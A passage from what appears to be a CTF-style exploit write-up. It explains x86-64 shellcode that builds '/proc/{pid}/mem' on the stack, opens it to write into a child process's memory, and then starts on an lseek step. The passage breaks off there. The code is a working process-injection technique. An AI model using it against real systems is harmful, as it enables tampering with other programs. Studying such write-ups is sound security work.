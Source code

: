 In my shellcode ([`inject.S`](sc/inject.S)), I used `{}` as a format string so python could substitute the PID (L49 above) with the proper encoding to make it a string:

```asm
 23 // Open the child memory file
 24 // fd = open("/proc/{pid}/mem", 1)
 25 xor     %rdx, %rdx
 26 push    %rdx
 27 mov     $0x6d656d2f2f2f2f2f, %rdx
 28 push    %rdx
 29 mov     $0x{pid}, %rdx
 30 push    %rdx
 31 mov     $0x2f636f72702f2f2f, %rdx
 32 push    %rdx
 33 mov     %rsp, %rdi
 34 xor     %rsi, %rsi
 35 inc     %rsi
 36 xor     %rax, %rax
 37 mov     $0x2, %al
 38 syscall
 39 mov     %rax, %r9
```

The `{pid}` on L24 and L29 both got replaced by the reverse hex encoding of the PID (as a string), so that the string is properly built on the stack. An example ASCII version of that string is:

```
///proc////////2/////mem
```

(You can put as many slashes between directories as you want, the above is equivalent to `/proc/2/mem`. It's a great way to pad strings.)

## Step 2: `lseek`

Now that we have a file descriptor to the child's memory, we need to figure out where exactly to write to. I pulled open the binary in IDA and looked for a suitable address:
